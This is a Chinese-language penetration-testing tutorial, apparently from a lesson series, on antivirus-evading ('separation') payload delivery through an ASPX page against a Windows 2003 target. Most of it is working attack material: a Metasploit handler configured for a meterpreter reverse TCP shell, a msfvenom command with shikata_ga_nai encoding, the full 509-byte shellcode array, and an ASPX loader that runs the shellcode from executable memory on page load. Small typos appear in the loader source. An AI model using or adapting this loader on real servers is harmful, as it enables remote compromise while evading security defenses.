







关于分离免杀，其他章节参考：
- 68课时payload特征，行为分离免杀思路第一季
- 69课时payload分离免杀思路第二季
本季针对目标环境支持aspx进行分离免杀。
靶机背景：
- Windows 2003
- Debian
Windows 2003：


msf auxiliary(server/socks4a) > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp_uuid
payload => windows/meterpreter/reverse_tcp_uuid
msf exploit(multi/handler) > set lhost 192.168.1.5
lhost => 192.168.1.5
msf exploit(multi/handler) > set lport 53
lport => 53
msf exploit(multi/handler) > set stageencoder x86/shikata_ga_nai
stageencoder => x86/shikata_ga_nai
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) > set exitonsession false
exitonsession => false
msf exploit(multi/handler) > show options
Module options(exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp_uuid):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)
LHOST 192.168.1.5 yes The listen address
LPORT 53 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(multi/handler) > exploit -j -z

payload生成：
root@John:tmp# msfvenom -a x86 -p windows/meterpreter/reverse_tcp_uuid
LHOST=192.168.1.5 LPORT=53 EnableStageEncoding=true
stageencoder=x86/shikata_ga_nai -e x86/shikata_ga_nai -i 5 -f csharp
/usr/share/metasploit-framework/lib/msf/core/opt.rb:55: warning: constant
OpenSSL::SSL::SSLContext::METHODS is deprecated
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 401 (iteration=0) x86/shikata_ga_nai succeeded with size 428 (iteration=1) x86/shikata_ga_nai succeeded with size 455 (iteration=2) x86/shikata_ga_nai succeeded with size 482 (iteration=3)
x86/shikata_ga_nai succeeded with size 509 (iteration=4) x86/shikata_ga_nai chosen with final size 509
Payload size: 509 bytes
Final size of csharp file: 2610 bytes
byte[] buf = new byte[509] {
0xd9,0xcc,0xd9,0x74,0x24,0xf4,0x5a,0xb8,0x76,0x1e,0x3d,0x54,0x2b,0xc9,0xb1,
0x79,0x83,0xc2,0x04,0x31,0x42,0x15,0x03,0x42,0x15,0x94,0xeb,0x83,0x64,0x7e,
0x17,0xee,0x5e,0xa8,0xce,0x7a,0x7b,0xa0,0xae,0xab,0x4a,0xf9,0x23,0x2f,0xa3,
0x05,0xf2,0x58,0x2d,0xf6,0x82,0xb7,0xaf,0x3d,0x91,0x7c,0x80,0x6a,0xd8,0xba,
0x3b,0x5a,0xda,0xb6,0xca,0xc8,0xeb,0x0d,0x8c,0x2a,0x94,0xc2,0x85,0x87,0xbc,
0x25,0xd1,0x6e,0x64,0xfe,0xc0,0xf6,0x5e,0x9f,0x15,0x80,0x17,0x8f,0xaa,0xae,
0xff,0x22,0x6b,0x6b,0x46,0x14,0x4c,0x66,0x50,0xcb,0x1f,0x29,0x00,0x27,0x4c,
0x19,0x12,0x09,0x98,0x38,0x3e,0x6c,0xa2,0x22,0x60,0xbf,0x99,0xdb,0xe7,0xc5,
0xa2,0x46,0x18,0xbd,0xc4,0xae,0xd7,0x82,0xe3,0xbd,0xfe,0x40,0x33,0xf6,0xd2,
0x7a,0x6b,0xe1,0x2f,0xf9,0x4b,0x8b,0xc3,0x57,0x26,0xfe,0xfd,0x91,0xf7,0x93,
0x4a,0xe1,0x85,0xeb,0x68,0x16,0x42,0xc9,0x6f,0xac,0xef,0x28,0x05,0x46,0x76,
0x1b,0xa3,0xb9,0xe9,0xbf,0x1a,0x56,0x3e,0xdc,0x4d,0xf3,0x9f,0x1b,0x09,0x55,
0x63,0x07,0xa3,0x59,0xbc,0x57,0xad,0x72,0x53,0x6b,0xff,0x49,0x10,0x47,0x21,
0x81,0xb8,0x0e,0x98,0xec,0x03,0xa3,0x9f,0x90,0xa3,0x15,0xc4,0x7d,0x87,0x5c,
0xcd,0xfe,0x32,0xca,0x11,0xf3,0x14,0x20,0xc8,0x92,0x36,0x88,0xe8,0xa1,0xad,
0xac,0x46,0x19,0x9f,0x04,0x76,0x01,0x41,0x3d,0x3a,0x7d,0x80,0xa2,0x4e,0x24,
0xcb,0x6b,0xe7,0xc9,0xc8,0xa4,0x01,0x17,0xb3,0x3a,0xd9,0x8e,0x9b,0x13,0x7b,
0xbf,0x49,0xf3,0xa9,0x71,0x57,0x49,0x54,0x60,0x32,0xf4,0x4e,0xfa,0x76,0xf8,
0x38,0x7c,0xb7,0x6b,0xac,0xc1,0x27,0x6b,0xae,0x80,0x10,0x85,0x98,0x61,0x42,
0x1e,0x1e,0xb0,0x58,0x6b,0xff,0x92,0x68,0xa5,0x29,0x45,0x99,0x9c,0xa2,0xc0,
0x29,0x53,0xc3,0x4b,0x76,0x72,0x17,0x60,0x3d,0xd8,0x11,0xce,0xc0,0xe6,0x34,
0xa1,0x26,0x65,0x98,0x79,0xf6,0x58,0x92,0x41,0x04,0xa0,0xf0,0x3d,0xf1,0x44,
0xb9,0x63,0x42,0x1a,0xac,0xad,0x67,0x98,0x8f,0x27,0x73,0xdd,0x54,0x61,0x65,
0xd1,0x72,0xc5,0x0f,0x8a,0xd3,0x80,0x6a,0xc3,0xf6,0x44,0x2f,0x1a,0x6a,0xe6,
0xfa,0x6c,0xa5,0x95,0x54,0x47,0x54,0xbf,0x66,0x78,0xfd,0x40,0x10,0x62,0xe8,
0xc0,0x93,0xa8,0x80,0xb9,0x37,0x4c,0x47,0x7b,0x61,0xc1,0x44,0x13,0x17,0x7f,
0xa2,0x73,0xcd,0x76,0x5f,0x2a,0x98,0x92,0x3e,0x09,0xa3,0x60,0xeb,0x41,0x1a,
0xf4,0xcb,0x6f,0x96,0xc6,0x3c,0xf0,0xda,0xc6,0x1c,0x1c,0xb6,0xa0,0x64,0x67,
0x7b,0xdc,0xe2,0x43,0xf1,0xee,0x3b,0x93,0xb9,0x95,0x29,0x01,0x97,0x8c,0x09,
0x72,0xee,0x78,0x1a,0x13,0x60,0xa6,0xac,0x05,0x99,0x6c,0x28,0x81,0x29,0x5d,
0x37,0x89,0x2a,0x3d,0xbf,0x0e,0xc7,0xeb,0x9f,0x44,0x1d,0xb3,0x4d,0x1a,0xbc,
0xe2,0x22,0xb2,0xb3,0xa6,0x43,0x3e,0x46,0xc5,0x0d,0xba,0x87,0xd5,0x6d,0x70,
0xfe,0x87,0x58,0x2c,0x4b,0x8c,0x2d,0x56,0x21,0x4a,0xbf,0x45,0x8c,0xd9,0x9e,
0xa0,0xe4,0x20,0x6b,0x7f,0xfb,0xd0,0x1e,0x88,0x13,0x6e,0x11,0xe9,0xd9 };

其中分离shellcode。构造如下：



上线成功，关于分离免杀的思路不仅仅限制于脚本，pe文件。包括powershell等。这是每一个安全从业者应该考虑的问题。
附录：Source code
<%@ Page Language="C#" AutoEventWireup="true" Inherits="System.Web.UI.Page" %>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<script runat="server">
delegate int MsfpayloadProc();
protected void Page_Load(object sender, EventArgs e)
{
byte[] buf = codeBytes[509] {
0xd9,0xcc,0xd9,0x74,0x24,0xf4,0x5a,0xb8,0x76,0x1e,0x3d,0x54,0x2b,0xc9,0xb1,
0x79,0x83,0xc2,0x04,0x31,0x42,0x15,0x03,0x42,0x15,0x94,0xeb,0x83,0x64,0x7e,
0x17,0xee,0x5e,0xa8,0xce,0x7a,0x7b,0xa0,0xae,0xab,0x4a,0xf9,0x23,0x2f,0xa3,
0x05,0xf2,0x58,0x2d,0xf6,0x82,0xb7,0xaf,0x3d,0x91,0x7c,0x80,0x6a,0xd8,0xba,
0x3b,0x5a,0xda,0xb6,0xca,0xc8,0xeb,0x0d,0x8c,0x2a,0x94,0xc2,0x85,0x87,0xbc,
0x25,0xd1,0x6e,0x64,0xfe,0xc0,0xf6,0x5e,0x9f,0x15,0x80,0x17,0x8f,0xaa,0xae,
0xff,0x22,0x6b,0x6b,0x46,0x14,0x4c,0x66,0x50,0xcb,0x1f,0x29,0x00,0x27,0x4c,
0x19,0x12,0x09,0x98,0x38,0x3e,0x6c,0xa2,0x22,0x60,0xbf,0x99,0xdb,0xe7,0xc5,
0xa2,0x46,0x18,0xbd,0xc4,0xae,0xd7,0x82,0xe3,0xbd,0xfe,0x40,0x33,0xf6,0xd2,
0x7a,0x6b,0xe1,0x2f,0xf9,0x4b,0x8b,0xc3,0x57,0x26,0xfe,0xfd,0x91,0xf7,0x93,
0x4a,0xe1,0x85,0xeb,0x68,0x16,0x42,0xc9,0x6f,0xac,0xef,0x28,0x05,0x46,0x76,
0x1b,0xa3,0xb9,0xe9,0xbf,0x1a,0x56,0x3e,0xdc,0x4d,0xf3,0x9f,0x1b,0x09,0x55,
0x63,0x07,0xa3,0x59,0xbc,0x57,0xad,0x72,0x53,0x6b,0xff,0x49,0x10,0x47,0x21,
0x81,0xb8,0x0e,0x98,0xec,0x03,0xa3,0x9f,0x90,0xa3,0x15,0xc4,0x7d,0x87,0x5c,
0xcd,0xfe,0x32,0xca,0x11,0xf3,0x14,0x20,0xc8,0x92,0x36,0x88,0xe8,0xa1,0xad,
0xac,0x46,0x19,0x9f,0x04,0x76,0x01,0x41,0x3d,0x3a,0x7d,0x80,0xa2,0x4e,0x24,
0xcb,0x6b,0xe7,0xc9,0xc8,0xa4,0x01,0x17,0xb3,0x3a,0xd9,0x8e,0x9b,0x13,0x7b,
0xbf,0x49,0xf3,0xa9,0x71,0x57,0x49,0x54,0x60,0x32,0xf4,0x4e,0xfa,0x76,0xf8,
0x38,0x7c,0xb7,0x6b,0xac,0xc1,0x27,0x6b,0xae,0x80,0x10,0x85,0x98,0x61,0x42,
0x1e,0x1e,0xb0,0x58,0x6b,0xff,0x92,0x68,0xa5,0x29,0x45,0x99,0x9c,0xa2,0xc0,
0x29,0x53,0xc3,0x4b,0x76,0x72,0x17,0x60,0x3d,0xd8,0x11,0xce,0xc0,0xe6,0x34,
0xa1,0x26,0x65,0x98,0x79,0xf6,0x58,0x92,0x41,0x04,0xa0,0xf0,0x3d,0xf1,0x44,
0xb9,0x63,0x42,0x1a,0xac,0xad,0x67,0x98,0x8f,0x27,0x73,0xdd,0x54,0x61,0x65,
0xd1,0x72,0xc5,0x0f,0x8a,0xd3,0x80,0x6a,0xc3,0xf6,0x44,0x2f,0x1a,0x6a,0xe6,
0xfa,0x6c,0xa5,0x95,0x54,0x47,0x54,0xbf,0x66,0x78,0xfd,0x40,0x10,0x62,0xe8,
0xc0,0x93,0xa8,0x80,0xb9,0x37,0x4c,0x47,0x7b,0x61,0xc1,0x44,0x13,0x17,0x7f,
0xa2,0x73,0xcd,0x76,0x5f,0x2a,0x98,0x92,0x3e,0x09,0xa3,0x60,0xeb,0x41,0x1a,
0xf4,0xcb,0x6f,0x96,0xc6,0x3c,0xf0,0xda,0xc6,0x1c,0x1c,0xb6,0xa0,0x64,0x67,
0x7b,0xdc,0xe2,0x43,0xf1,0xee,0x3b,0x93,0xb9,0x95,0x29,0x01,0x97,0x8c,0x09,
0x72,0xee,0x78,0x1a,0x13,0x60,0xa6,0xac,0x05,0x99,0x6c,0x28,0x81,0x29,0x5d,
0x37,0x89,0x2a,0x3d,0xbf,0x0e,0xc7,0xeb,0x9f,0x44,0x1d,0xb3,0x4d,0x1a,0xbc,
0xe2,0x22,0xb2,0xb3,0xa6,0x43,0x3e,0x46,0xc5,0x0d,0xba,0x87,0xd5,0x6d,0x70,
0xfe,0x87,0x58,0x2c,0x4b,0x8c,0x2d,0x56,0x21,0x4a,0xbf,0x45,0x8c,0xd9,0x9e,
0xa0,0xe4,0x20,0x6b,0x7f,0xfb,0xd0,0x1e,0x88,0x13,0x6e,0x11,0xe9,0xd9 };
IntPtr handle = IntPtr.Zero;
handle = VirtualAlloc(
IntPtr.Zero,
codeBytes.Length,
MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
try
{
Marshal.Copy(codeBytes, 0, handle, codeBytes.Length);
MsfpayloadProc msfpayload
= Marshal.GetDelegateForFunctionPointer(handle, typeof(MsfpayloadProc)) as MsfpayloadProc;
msfpayload();
}
finally
{
VirtualFree(handle, 0, MEM_RELEASE);
}
}
[DllImport("Kernel32.dll", EntryPoint = "VirtualAlloc")]
public static extern IntPtr VirtualAlloc(IntPtr address, int size, ui ntallocType, uint protect);
[DllImport("Kernel32.dll", EntryPoint = "VirtualFree")]
public static extern bool VirtualFree(IntPtr address, int size, uint freeType);
const uint MEM_COMMIT = 0x1000;
const uint MEM_RESERVE = 0x2000;
const uint PAGE_EXECUTE_READWRITE = 0x40;
const uint MEM_RELEASE = 0x8000;
</script>
Micropoor